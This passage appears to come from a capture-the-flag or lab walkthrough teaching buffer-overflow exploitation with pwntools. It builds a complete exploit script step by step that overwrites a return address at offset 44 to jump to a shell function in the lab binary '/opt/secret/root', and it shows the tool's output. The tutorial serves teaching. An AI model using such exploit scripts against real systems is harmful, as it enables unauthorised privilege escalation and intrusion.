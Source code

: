 WE DID IT! We were able to exploit the program by overflowing its buffer!


## Binary Exploitation: The pwntools way

Pwntools is a python library dedicated to making everything we just did in the last task much simpler. However, since it is a library, it requires python knowledge to use to it's full potential, and as such everything in this task will be done using a python script.

We start off the script with:

```
from pwn import *
proc = process('/opt/secret/root')
```

This imports all the utilities from the pwntools library so we can use them in our script, and then creates a process that we can interact with using pwntools functions.

We know that we need the memory address of the shell function, and pwntools provides a way to obtain that with ELF().

ELF allows us to get various memory addresses of important points in our binary, including the memory address of the shell function.

With the ELF addition our script becomes

```
from pwn import *
proc = process('/opt/secret/root')
elf = ELF('/opt/secret/root')
shell_func = elf.symbols.shell
```


shell_func holds the memory address of our shell function. Now we need a way to form the payload, luckily pwntools has that to with fit().

fit allows us to form a payload by combining characters and our memory address. To send the payload we can use a method in our proc variable, proc.sendline(), which just sends whatever data we want to the binary. Finally we can use proc.interactive(), to view the full output of the process.

With all that our final exploit script becomes

```
from pwn import *
proc = process('/opt/secret/root')
elf = ELF('/opt/secret/root')
shell_func = elf.symbols.shell
payload = fit({
44: shell_func # this adds the value of shell_func after 44 characters
})
proc.sendline(payload)
proc.interactive()
```

Save that to a .py file and run it, and you should get this output:

```
[*] Checking for new versions of pwntools
    To disable this functionality, set the contents of /root/.pwntools-cache-2.7/update to 'never'.
[!] An issue occurred while checking PyPI
[*] You have the latest version of Pwntools (4.0.0)
[+] Starting local process '/opt/secret/root': pid 1122
[*] '/opt/secret/root'
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX disabled
    PIE:      No PIE (0x8048000)
    RWX:      Has RWX segments
```